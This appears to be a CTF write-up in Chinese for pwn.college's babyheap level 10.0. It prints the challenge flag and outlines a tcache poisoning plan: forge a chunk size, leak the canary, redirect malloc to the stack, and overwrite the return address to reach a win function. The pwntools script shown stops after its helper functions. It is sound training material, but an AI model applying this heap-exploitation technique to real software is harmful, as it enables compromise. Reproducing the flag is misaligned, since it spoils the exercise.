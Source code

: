 ## Flag

:spoiler[`pwn.college{YpgPY9CRd5Wk4FCJ7klY0D4fwXX.0FO4MDL5cTNxgzW}`]

# Level 10.0

## Information

- Category: Pwn

## Description

> Leverage TCACHE exploits to gain control flow.

## Write-up

这题嘛，保护全开，但是直接泄漏给我们栈地址和程序代码段地址了，发现后门函数 `win`，那想法自然是令 malloc 返回栈地址，然后我们 scanf 向栈内输入数据溢出返回地址 balabala ～

由于程序使用了 `malloc_usable_size` 来确定输入大小，所以我们还得伪造一个 chunk size 来欺骗这个函数，才能得到足够的输入空间。此外，canary 也需要我们提前泄漏出来。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    p64,
    process,
    raw_input,
    remote,
)


FILE = "/challenge/babyheap_level10.0"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode())


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode())


```
